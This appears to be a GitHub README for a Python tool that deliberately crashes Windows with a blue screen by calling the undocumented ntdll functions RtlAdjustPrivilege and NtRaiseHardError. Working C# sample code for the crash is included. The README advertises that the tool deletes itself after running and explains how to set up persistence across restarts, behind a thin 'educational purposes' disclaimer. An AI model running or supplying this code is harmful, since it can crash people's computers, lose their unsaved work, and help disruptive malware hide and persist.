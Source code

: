 # Windows BSOD made in python
This project was inspired from a undocumented function in ntdll.dll.

[document](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html)

Requires the SeShutdownPriviledge, otherwise will fail.
Use RtlAdjustPrivilege with Privilege parameter 19 to enable SeShutdownPriviledge.
```
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

# Restart prestance 
Modify on Line 15:
```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```

# Disclaimer
This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
